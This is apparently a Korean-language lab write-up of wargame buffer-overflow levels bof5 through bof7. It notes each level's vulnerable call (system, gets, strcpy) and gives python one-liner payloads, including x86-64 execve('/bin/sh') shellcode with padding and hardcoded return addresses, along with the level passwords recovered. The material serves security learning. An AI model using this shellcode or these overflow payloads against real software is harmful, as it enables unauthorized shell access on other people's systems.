 # bof5 ~ bof 7

## <bof 5>

### bof5 ID : bof5
### bof5 password : c75cfe84
* bof4를 통해 알아냈음

<과정>
1. ls를 통해 bof5 bof5.c bof5.hint bof6pw가 있음을 알 수 있음(bof6권한 x)
2. (bat bof5.c) bof5.c 소스코드
* buf크기 : 128
* system(buf);
  * system 함수 --> 쉘 실행 

<img src="https://github.com/adakim3297/day3/blob/main/bof5%20%EC%86%8C%EC%8A%A4%EC%BD%94%EB%93%9C.png?raw=true" width="350" height="450"/>

3. bof5 힌트
* 
  <img src = "https://github.com/adakim3297/day3/blob/main/bof5.hint.png?raw=true" width="500" height="110"/> 

*  (python -c "print '/bin/sh\x00' + 'x'*132 +'\x78\x56\x34\x12'" ;cat) | ./bof5

<결과>
<img src = "https://github.com/adakim3297/day3/blob/main/bof6.password.png?raw=true" width ="250" height = "90"/>
* bof6 password : b35aad61


## <bof 6>

### bof6 ID : bof6
### bof6 password : b35aad61

<과정>
1. ls를 통해 bof6 bof6.c bof6.hint bof7pw가 있음을 알 수 있음(bof7권한 x)
2. (bat bof6.c) bof6.c 소스코드
* buf크기 : 128
*gets(buf)

<img src="https://github.com/adakim3297/day3/blob/main/bof6%20-1.png?raw=true" width="450" height="450"/>



1. bof6 힌트
* 
(python -c "print 'x'*< BUF to RETURN ADDRESS >+'< SHELLCODE ADDRESS >'";cat) | ./bof6

*  (python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'x'*109+'\x30\xeb\xff\xff\xff\x7f'";cat) | ./bof6

<결과>

* bof7 password : ffa35d7e



## <bof 7>
### bof6 ID : bof7
### bof6 password : ffa35d7e
1. ls를 통해 bof7 bof7.c bof7.hint bof8pw가 있음을 알 수 있음(bof7권한 x)
2. (bat bof7.c) bof7.c 소스코드
* buf크기 : 128
* strcpy(buf, arg);
<img src="https://github.com/adakim3297/day3/blob/main/bof7-1.png?raw=true" width="350" height="450"/>

<img src="https://github.com/adakim3297/day3/blob/main/bof7-2.png?raw=true" width="900" height="100"/>

3. ./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'x'*109 + '\xb0\xea\xff\xff\xff\x7f'"`

* bof8 password  : 0dc54105